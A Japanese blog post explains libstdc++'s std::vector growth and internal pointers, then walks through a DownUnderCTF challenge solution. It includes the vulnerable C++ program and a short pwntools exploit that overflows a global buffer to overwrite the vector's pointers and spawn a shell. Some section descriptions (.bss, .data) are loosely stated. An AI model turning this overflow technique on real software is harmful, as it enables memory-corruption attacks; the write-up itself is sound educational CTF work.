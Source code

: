 # C++,ベクトル型の実装仕様とMemory Allocation

今回は先日のDownUnderCTFで出たC++,Vector型のpwn問で知ったVector型の仕様,メモリアロケーションについてのブログです.

## 仕様
Vector型の仕様はとても単純です.

Vector型は可変長の配列として認識されているところがありますが,その実態は2\^nの領域をヒープ領域に確保し,足りない場合2\^(n+1)のメモリをヒープ領域にアロケーションしもとのデータをコピーし開放しているだけです.

この実装仕様はgcc,libstdc++のstl_vector.h([github](https://github.com/gcc-mirror/gcc/blob/master/libstdc++-v3/include/bits/stl_vector.h)もしくは/usr/include/c++/version/bits/stl_vector.h)で確認できます.

要素を末尾に追加するpush_back()はこのようになっています.
```C
void
push_back(const value_type& __x){
    if (this->_M_impl._M_finish != this->_M_impl._M_end_of_storage)
    {
  _GLIBCXX_ASAN_ANNOTATE_GROW(1);
  _Alloc_traits::construct(this->_M_impl, this->_M_impl._M_finish,__x);
  ++this->_M_impl._M_finish;
  _GLIBCXX_ASAN_ANNOTATE_GREW(1);
  }
  else
  _M_realloc_append(__x);
}
```

## コード内の_M_finishや_M_end_of_storageとは
コード内の_M_finish,_M_end_of_storage,_M_start(後述)はヒープ領域ではなく.bssセクションに記憶されるデータです.

* _M_start
  * このポインタはvector型がヒープ領域に確保している範囲の最初を指しています
* _M_finish
  * このポインタはvector型の最後の要素の次の要素の位置を指しています
* _M_end_of_storage
  * このポインタはvector型がヒープ領域に確保している範囲の終わりを指しています

> .bssセクションとはプログラムのグローバル変数等を記憶するセクションです.
> 
> 他のプログラムのセクションとしては定数を記憶する.dataセクションやstack,heapもセクションの一部です

vector型ではこの変数に確保した_M_startのみならず_M_finishを記憶することでの高速に要素を追加することが出来るようになっています.

ヒープに確保した領域が足りなくなった場合2倍の領域を確保し要素をコピーしなければならないのでこの操作にはo(n)の時間がかかりますがこの再確保の頻度は指数関数的に減少します.

## .bssのオーバーライト
7/6~7/7に開催された[Down Under CTF](https://downunderctf.com/)のpwn問題でこのような問題がありました.
```C++
#include <cstdlib>
#include <iostream>
#include <string>
#include <vector>

char buf[16];
std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};

void lose() {
    puts("Bye!");
    exit(1);
}

void win() {
    system("/bin/sh");
    exit(0);
}

int main() {
    char ductf[6] = "DUCTF";
    char* d = ductf;

    std::cin >> buf;
    if(v.size() == 5) {
        for(auto &c : v) {
            if(c != *d++) {
                lose();
            }
        }

        win();
    }

    lose();
}
```
vector型vの中身をDUCTFに書き換えればwin()をコールしシェルをゲット出来る問題です.
```C++
ctd::cin >> buf
```
この部分に自明なBOFがあり,bufはグローバルなので.bssセクションに確保されています.

![Screenshot_20240719_125717.png](vector_ninja.png)

よって

```C++
DUCTF+パディング+_M_start+_M_finish+_M_end_of_storage_

_M_start : bufの先頭
_M_finish : bufのインデックス5
_M_end_of_storage : bufのインデックス5
```

とすれば

```C++
for(auto &c : v) {
  if(c != *d++) {
    lose();
  }
}
```

は私の入力を参照しますから突破出来ます.

```Python
from pwn import *

p = process("vector_of")

p.sendline(b"DUCTF"+b"a"*11 + p64(0x4051e0) + p64(0x4051e5) + p64(0x4051e5))

p.interactive()
```

exploit自体はとても簡単でしたがvector型の仕様を完璧に理解することが出来ました.
チャレンジはPIE無効でしたがPIE有効でもアドレスリークさえできれば色々応用が効きそうですね.

